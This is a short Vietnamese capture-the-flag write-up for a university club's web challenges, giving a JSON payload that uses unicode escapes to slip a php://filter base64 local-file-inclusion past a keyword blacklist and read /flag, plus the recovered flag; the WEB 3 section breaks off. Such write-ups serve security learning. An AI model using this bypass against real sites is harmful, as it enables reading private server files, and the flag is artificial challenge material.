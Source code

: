## SOLVE

### WEB 1:

Đọc qua src code , có thể thấy web nhận POST request và có thể khai thác LFI.

> Khi gửi request , server trả về
>
> ![img](/imgs/response.png)


> `{"content":"Invalid content"}`
>
> do trong flag có "EHC" , đã blacklist.

Sau khi tra google thì e biết có 1 phương pháp encode base64 bằng php

> Gửi lại request cho server.
>
> ![img](/imgs/invalidreq.png)


> server vẫn trả về `{"content":"Invalid content"}` do trong request có chứa cụm "PHP", đã blacklist .

Sau 1 hồi tra google thì e lạI biết được json có escape char:
`\u+4-digits-hex`
--&gt; có payload

```json
{
    "page":"\u0050\u0048\u0050://filter/convert.base64-encode/resource=/flag"
}
```

> Gửi lại cho server , ta được flag :
>
> ![img](/imgs/flag.png)

> `{"content":"RUhDe3czbGMwbTNfdzNiX3c0cnJqMHJzfQo="}`
> Decode base64 , có
>
> ![img](/imgs/flagdecoded.png)

> FLAG: `EHC{w3lc0m3_w3b_w4rrj0rs}`

### WEB 2:

### WEB 3:( cách làm của em không hay lắm nma kết quả đúng:)))) )

Đầu tiên , em thử vào từng path của site , thấy:

> `https://web3.ehc-fptu.club/1 --> https://web3.ehc-fptu.club/api/viewflag`
> Điều tương tự cũng xảy ra với 3 và 0. Nhưng 2 và 4 lại not found.